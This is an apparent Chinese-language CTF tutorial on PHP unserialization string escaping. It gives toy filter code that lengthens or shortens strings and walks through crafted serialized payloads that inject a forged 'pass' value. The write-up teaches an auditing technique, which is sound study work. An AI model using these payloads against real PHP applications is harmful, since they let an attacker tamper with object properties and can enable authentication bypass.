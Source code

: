 ```yaml
---
title: Unserialization Escaping
date: 2022-07-09 17:58:30
tags:
categories:
- code-audit
---
```


- [反序列化字符串逃逸](#反序列化字符串逃逸)
  - [少变多](#少变多)
        - [实验](#实验)
    - [做法](#做法)
        - [1 生成一个看起来正常的序列化字符串](#1-生成一个看起来正常的序列化字符串)
        - [2 构造最终的pass值](#2-构造最终的pass值)
        - [3 计算溢出位移，构造payload](#3-计算溢出位移构造payload)
  - [多变少](#多变少)
        - [实验代码](#实验代码)
    - [做法](#做法-1)
        - [1 生成一个看起来正常的序列化字符串](#1-生成一个看起来正常的序列化字符串-1)
        - [2 计算被吃掉部分字符串](#2-计算被吃掉部分字符串)
        - [3 构造payload拼接尾部](#3-构造payload拼接尾部)


# 反序列化字符串逃逸

## 少变多

##### 实验

    <?php
    // 少变多题目
    function filter($str){
        return str_replace('bb', 'ccc', $str);
    }

    class A{
        public $name='aaaa';
        public $pass='123456';
    }



构造顺序，从

    ";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}";s:4:"pass";s:6:"123456";}

开始计算

    // 得知 少变多 bb->ccc ，被篡改的s长度要大，s内容要小，才能顶出
    // 数出`";s:4:"pass";s:6:"hacker";}`部分是27长度字符，则需要顶出27
    // 顶出长度/变长位数 就是 被替换字符 的个数
    // 故输出27对"bb"


// ";s:4:"pass";s:6:"hacker";}     len:27

// 2->3 差值1   27对

    $payload = 'O:1:"A":2:{s:4:"name";s:81:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:2:"21";}';
    echo $payload;
    echo "\n";
    $payload=filter($payload);
    echo $payload;
    echo "\n";

    $o=unserialize($payload);
    // echo $o->pass;
    echo serialize($o);

    ?>

### 做法

##### 1 生成一个看起来正常的序列化字符串

    <?php
    // exp

    class A{
        public $name='12';
        public $pass='21';
    }

    $o = new A();
    echo serialize($o);
    ?>

得到

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:2:"21";}

##### 2 构造最终的pass值

因为我们构造的这部分代码会被“少变多”顶出去，因此我们从被构造变量的上一个变量的变量值的右引号起开始构造，构造如下这部分

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:2:"21";}

构造为

    ";s:4:"pass";s:6:"hacker";}


##### 3 计算溢出位移，构造payload

从上一步已构造得到

    ";s:4:"pass";s:6:"hacker";}

使用python计算长度 len('";s:4:"pass";s:6:"hacker";}')，得其长度为27

已知题目是'bb' 变为 'ccc'，即 2->3，一对的长度差值多1个字节。为了顶出 27长度 的payload，我们则 27/1 == 27 ，即构造27对 'bb' 变 'ccc'

从第一步得到的字符串，直接删除name的变量值中原有字符串（即原有的“12”这种占位字符），填写27对'bb'（即54个b）和我们构造后的payload

    O:1:"A":2:{s:4:"name";s:2:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:2:"21";}

如上payload，黄底红字是我们拼上去的，灰底紫字在未来将会被顶出去，实际作废。

最后不要忘了修改name变量值的长度，题目会将这27对bb替换为27对ccc，即变为81个长度的字符值。

因此，我们需要修改字符串长度为 81

    O:1:"A":2:{s:4:"name";s:81:"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:2:"21";}

传输此字符串，则成功结束。
发送payload，反序列化后的pass将会是 

    s:6:"hacker"

比对如下：

![2024-04-14-11-57-35](2024-04-14-11-57-35.png)

## 多变少


##### 实验代码

    <?php
    // 多变少题目
    function str_rep($string){
        return preg_replace( '/php|test/','', $string);
    }

    class A{
        public $name='aaaa';
        public $pass='123456';
    }

---

    // 先构造尾部字符串
    // ";s:4:"pass";s:6:"hacker";}";}  payload部分：这是最终要反序列化识别出来的
    // ";s:4:"pass";s:2:"222    作废部分：这部分是需要被吃的，不过这部分可以计算，比如长度是21，或者不是整倍数也可以直接改字符串使其长度是变化长度的整倍数
    // 变化：3->0或4->0，即找3或者4的倍数，然后构造 21 / 3 = 7,则写7个php

---

    $payload = 'O:1:"A":2:{s:4:"name";s:21:"phpphpphpphpphpphpphp";s:4:"pass";s:3:"221";s:4:"pass";s:6:"hacker";}"';
    echo "\n";
    $payload=str_rep($payload);
    echo $payload;
    echo "\n";

    $o=unserialize($payload);
    echo $o->pass;
    ?>

### 做法

##### 1 生成一个看起来正常的序列化字符串

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:2:"21";}

##### 2 计算被吃掉部分字符串

如这部分

    O:1:"A":2:{s:4:"name";s:2:"12";s:4:"pass";s:3:"212";}

`";s:4:"pass";s:3:"212`
是将被吃掉的部分，计算长度是21

变化：3->0或4->0，即找3或者4的倍数。此处假设我们选择构造3的倍数，则构造 21 / 3 = 7,则写7个php。

注意，此处如果长度是22，但是遇到的题目是3->0位移为3，22不是3的整倍数，也不用太担心。“多变少”题型我们可以随意控制被吃的字符串长度（反正会被吃掉，甚至不用计算这个s的长度对不对），比如是";s:4:"pass";s:4:"2221被吃的22长度，那可以改字符串长度和字符串是21长度的";s:4:"pass";s:2:"222

那么payload现在就是";s:4:"pass";s:3:"212将会被phpphpphpphpphpphpphp吃掉。

payload如下

    O:1:"A":2:{s:4:"name";s:21:"phpphpphpphpphpphpphp";s:4:"pass";s:3:"221


##### 3 构造payload拼接尾部
根据上面提到的残缺，直接构造payload，拼接尾部构成完整的payload即可。

    ";s:4:"pass";s:6:"hacker";}"

变为

    O:1:"A":2:{s:4:"name";s:21:"phpphpphpphpphpphpphp";s:4:"pass";s:3:"221";s:4:"pass";s:6:"hacker";}"













